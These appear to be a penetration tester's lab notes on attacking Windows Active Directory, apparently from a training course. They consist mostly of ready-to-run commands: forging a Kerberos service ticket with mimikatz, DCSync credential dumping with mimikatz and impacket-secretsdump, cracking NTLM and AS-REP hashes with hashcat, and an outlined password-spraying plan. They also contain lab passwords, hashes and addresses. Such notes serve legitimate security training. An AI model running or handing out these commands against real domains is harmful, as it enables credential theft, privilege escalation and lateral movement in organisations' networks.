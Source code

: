 create ticket (in mimikatz)
- We need to provide the domain SID (**/sid:**), domain name (**/domain:**), and the target where the SPN runs (**/target:**). We also need to include the SPN protocol (**/service:**), NTLM hash of the SPN (**/rc4:**), and the **/ptt** option, which allows us to inject the forged ticket into the memory of the machine we execute the command on
```
kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:jeffadmin
```

confirm ticket is in memory
```
klist
```

now this command should work
```
iwr -UseDefaultCredentials http://web04 -outfile outfile.txt
more outfile.txt | findstr /i OS{
```

### domain controller synchronization
- there may be multiple controllers for redundancy
- the domain controller receiving a request for an update does not check whether the request came from a known domain controller
- can launch a dsync attack where we pretend to be a domain controller
- to launch rogue update request user needs Replicating Directory Changes, Replicating Directory Changes All, and Replicating Directory Changes in Filtered Set rights
- 
```
xfreerdp /cert-ignore /u:jeffadmin /d:corp.com /p:BrouhahaTungPerorateBroom2023! /v:192.168.250.75

cd C:\Tools\
.\mimikatz.exe
```

obtain NTLM hashes
```
lsadump::dcsync /user:corp\krbtgt
lsadump::dcsync /user:corp\dave
hashcat -m 1000 hashes.dcsync /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

perform dcsync secrets dump on kali
```
impacket-secretsdump -just-dc-user dave corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\!"@192.168.250.70
```

NTLM hash is in the last part - `08d7a47a6f9f66b97b1bae4178747494`
```
dave:1103:aad3b435b51404eeaad3b435b51404ee:08d7a47a6f9f66b97b1bae4178747494:::
```

### VM 2
1) Perform credential roasting on specific users within the DC.
2) Crack the hash using a custom rule with hashcat.
3) Spray the new credential across all machines using crackmapexec.
4) Use mimikatz to perform post-exploitation and try logging into DC1.
### AS-REP Roasting
```
impacket-GetNPUsers -dc-ip 192.168.250.70  -request -outputfile hashes.asreproast4 corp.com/pete
sudo hashcat -m 18200 hashes.asreproast4 /usr/share/wordlists/rockyou.txt -r rule2 --force
```
